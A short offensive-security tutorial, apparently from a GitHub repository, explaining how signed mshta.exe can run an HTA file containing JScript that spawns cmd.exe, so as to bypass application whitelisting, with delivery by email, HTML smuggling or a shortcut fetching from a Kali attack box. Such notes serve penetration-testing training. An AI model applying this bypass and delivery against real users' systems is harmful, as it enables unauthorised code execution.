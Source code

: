 ## _MSHTA_ client side attack vector
Since mshta.exe is located in 
```cmd
C:\Windows\System32\mshta.exe
```
and is a signed Microsoft application, it is commonly whitelisted.
Because of this, we can execute our Jscript code with mshta.exe instead of wscript.exe, and subsequently, bypass application whitelisting.

A very simple HTA file containing Jscript code is as follows:
```html
<html> 
<head> 
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head> 
<body>
<script language="JScript">
self.close();
</script>
</body> 
</html>
```

When executed by mshta.exe, the Jscript code inside both the head and the body tags will be executed, a command prompt will be spawned and the mshta.exe window will be closed.
We can deliver this in a few different ways. For example, we could attach it to an email, or HTML-smuggle the file through a browser.

We can create a shortcut to grab the file from our kali attack box, running the shortcut file, will execute our code.
